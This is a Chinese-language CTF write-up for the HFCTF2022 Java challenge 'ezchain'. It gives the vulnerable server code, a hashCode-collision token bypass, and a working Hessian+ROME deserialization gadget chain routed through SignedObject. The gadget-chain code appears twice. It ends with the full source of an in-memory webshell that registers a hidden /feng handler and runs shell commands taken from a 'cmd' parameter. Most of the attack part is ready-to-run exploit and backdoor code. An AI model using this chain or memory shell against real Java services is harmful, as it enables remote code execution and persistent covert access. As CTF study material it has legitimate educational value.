





# README

## 前言

HFCTF2022的Java题，考察了hessian+rome的反序列化。


## wp

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.ctf.ezchain;

import com.caucho.hessian.io.Hessian2Input;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.util.HashMap;
import java.util.Map;
import java.util.Objects;
import java.util.concurrent.Executors;

public class Index {
    public Index() {
    }

    public static void main(String[] args) throws Exception {
        System.out.println("server start");
        HttpServer server = HttpServer.create(new InetSocketAddress(8090), 0);
        server.createContext("/", new Index.MyHandler());
        server.setExecutor(Executors.newCachedThreadPool());
        server.start();
    }

    static class MyHandler implements HttpHandler {
        MyHandler() {
        }

        public void handle(HttpExchange t) throws IOException {
            String query = t.getRequestURI().getQuery();
            Map<String, String> queryMap = this.queryToMap(query);
            String response = "Welcome to HFCTF 2022";
            if (queryMap != null) {
                String token = (String)queryMap.get("token");
                String secret = "HFCTF2022";
                if (Objects.hashCode(token) == secret.hashCode() && !secret.equals(token)) {
                    InputStream is = t.getRequestBody();

                    try {
                        Hessian2Input input = new Hessian2Input(is);
                        input.readObject();
                    } catch (Exception var9) {
                        response = "oops! something is wrong";
                    }
                } else {
                    response = "your token is wrong";
                }
            }

            t.sendResponseHeaders(200, (long)response.length());
            OutputStream os = t.getResponseBody();
            os.write(response.getBytes());
            os.close();
        }

        public Map<String, String> queryToMap(String query) {
            if (query == null) {
                return null;
            } else {
                Map<String, String> result = new HashMap();
                String[] var3 = query.split("&");
                int var4 = var3.length;

                for(int var5 = 0; var5 < var4; ++var5) {
                    String param = var3[var5];
                    String[] entry = param.split("=");
                    if (entry.length > 1) {
                        result.put(entry[0], entry[1]);
                    } else {
                        result.put(entry[0], "");
                    }
                }

                return result;
            }
        }
    }
}

```

给了`rome-utils-1.7.0`的依赖。首先需要绕那个hashcode，Jiang宝爆破出来是`bfcb41d9`。

然后就是hessian+rome的反序列化了，因为环境不出网，所以JNDI注入的链子没法用。动态加载字节码的话会因为瞬态变量出问题。


这里学习一波`SignedObject#getObject`方法：

```java
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

可以原生反序列化，所以构造一个二次反序列化的POC即可：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","f");
        //SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        ToStringBean toStringBean1 = new ToStringBean(Templates.class, templates);
        EqualsBean equalsBean1 = new EqualsBean(ToStringBean.class, toStringBean1);
        ObjectBean objectBean1 = new ObjectBean(String.class,"f");
        HashMap evilMap1 = new HashMap();
        evilMap1.put(objectBean1,1);
        evilMap1.put(objectBean1,1);
        SerializeUtil.setFieldValue(objectBean1,"equalsBean",equalsBean1);
        //byte[] bytes = SerializeUtil.serialize(evilMap1);
        Signature signature = Signature.getInstance("DSA");
        KeyPairGenerator kg = KeyPairGenerator.getInstance("DSA");
        kg.initialize(1024);
        KeyPair kp = kg.genKeyPair();
        SignedObject signedObject = new SignedObject(evilMap1,kp.getPrivate(),signature);
        //SerializeUtil.setFieldValue(signedObject,"content",bytes);


        ToStringBean toStringBean = new ToStringBean(SignedObject.class, signedObject);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);


        ObjectBean objectBean = new ObjectBean(String.class,"f");
        HashMap evilMap = new HashMap();
        evilMap.put(objectBean,1);
        evilMap.put(objectBean,1);
        SerializeUtil.setFieldValue(objectBean,"equalsBean",equalsBean);
        //byte[] serialize = SerializeUtil.serialize(evilMap);
        //SerializeUtil.unserialize(serialize);
        byte[] serialize = HessianUtil.serialize(evilMap);
        System.out.println(Base64.getEncoder().encodeToString(serialize));
        //HessianUtil.deserialize(serialize);
```

接下来的问题就是，那个恶意类的写了。说白了就是怎么回显了。

这里有2种办法，一种就是类似内存马的方法，一种就是Linux通用回显。

linux通用回显学习自Jiang宝：

https://github.com/bfengj/Java-Rce-Echo/blob/master/Linux/code/case2-Deprecated.jsp

但是buu的环境我没有打通，Jiang宝说他自己的环境打通了，可能是Buu的问题。

另外一种内存马的方式学习自Y4师傅了：

https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java-%E5%86%85%E5%AD%98%E9%A9%AC/#%E9%A2%98%E7%9B%AE%E7%8E%AF%E5%A2%83


下个断点跟一下：

可以看到create的是`HttpServerImpl`对象。



然后`createContext`

```java
    public synchronized HttpContextImpl createContext(String var1, HttpHandler var2) {
        if (var2 != null && var1 != null) {
            HttpContextImpl var3 = new HttpContextImpl(this.protocol, var1, var2, this);
            this.contexts.add(var3);
            this.logger.config("context created: " + var1);
            return var3;
        } else {
            throw new NullPointerException("null handler, or path parameter");
        }
    }
```




其实就是设置了`path`和`handler`。然后把这个`HttpContextImpl`添加到`contexts`中。



最后进行多线程处理，进行`start`：



对这个var1好好看看：



就可以知道，其实那个`handler`是在这里的。想要注册内存马的话，`Thread.currentThread`获取当前线程之后然后利用反射一步一步进行操作就行了。Y4是强行把这个handler覆盖掉了。。。我们完全可以再增加一个新的`HttpContextImpl`，都可了。

增加`HttpContextImpl`的：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","f");
        //SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        ToStringBean toStringBean1 = new ToStringBean(Templates.class, templates);
        EqualsBean equalsBean1 = new EqualsBean(ToStringBean.class, toStringBean1);
        ObjectBean objectBean1 = new ObjectBean(String.class,"f");
        HashMap evilMap1 = new HashMap();
        evilMap1.put(objectBean1,1);
        evilMap1.put(objectBean1,1);
        SerializeUtil.setFieldValue(objectBean1,"equalsBean",equalsBean1);
        //byte[] bytes = SerializeUtil.serialize(evilMap1);
        Signature signature = Signature.getInstance("DSA");
        KeyPairGenerator kg = KeyPairGenerator.getInstance("DSA");
        kg.initialize(1024);
        KeyPair kp = kg.genKeyPair();
        SignedObject signedObject = new SignedObject(evilMap1,kp.getPrivate(),signature);
        //SerializeUtil.setFieldValue(signedObject,"content",bytes);


        ToStringBean toStringBean = new ToStringBean(SignedObject.class, signedObject);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);


        ObjectBean objectBean = new ObjectBean(String.class,"f");
        HashMap evilMap = new HashMap();
        evilMap.put(objectBean,1);
        evilMap.put(objectBean,1);
        SerializeUtil.setFieldValue(objectBean,"equalsBean",equalsBean);
        //byte[] serialize = SerializeUtil.serialize(evilMap);
        //SerializeUtil.unserialize(serialize);
        byte[] serialize = HessianUtil.serialize(evilMap);
        System.out.println(Base64.getEncoder().encodeToString(serialize));
        //HessianUtil.deserialize(serialize);
```

```java

import com.sun.net.httpserver.HttpContext;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;


public class Evil  extends AbstractTranslet implements HttpHandler{
    public Evil() throws Exception{
        super();
        try {
            Object obj = Thread.currentThread();
            Field field = obj.getClass().getDeclaredField("group");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("threads");
            field.setAccessible(true);
            obj = field.get(obj);
            Thread[] threads = (Thread[]) obj;
            for (Thread thread : threads) {
                if (thread.getName().contains("Thread-2")) {
                    try {
                        field = thread.getClass().getDeclaredField("target");
                        field.setAccessible(true);
                        obj = field.get(thread);


                        field = obj.getClass().getDeclaredField("this$0");
                        field.setAccessible(true);
                        obj = field.get(obj);


                        Method createContext = obj.getClass().getMethod("createContext",String.class,HttpHandler.class);
                        createContext.setAccessible(true);
                        System.out.println(123);

                        createContext.invoke(obj,"/feng",this);
                        System.out.println(456);

                    }catch (Exception e){
                        System.out.println(e.toString());
                        e.printStackTrace();
                    }
                }

            }

        } catch (Exception e) {
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void handle(HttpExchange t) throws IOException {
        String response = "";
        String query = t.getRequestURI().getQuery();
        String[] var3 = query.split("=");
        System.out.println(var3[0]+var3[1]);
        ByteArrayOutputStream output = null;
        if (var3[0].equals("cmd")){
            InputStream inputStream = Runtime.getRuntime().exec(var3[1]).getInputStream();
            output = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int n = 0;
            while (-1 != (n = inputStream.read(buffer))) {
                output.write(buffer, 0, n);
            }
        }
        response+=("\n"+new String(output.toByteArray()));
        t.sendResponseHeaders(200, (long)response.length());
        OutputStream os = t.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }


}


```

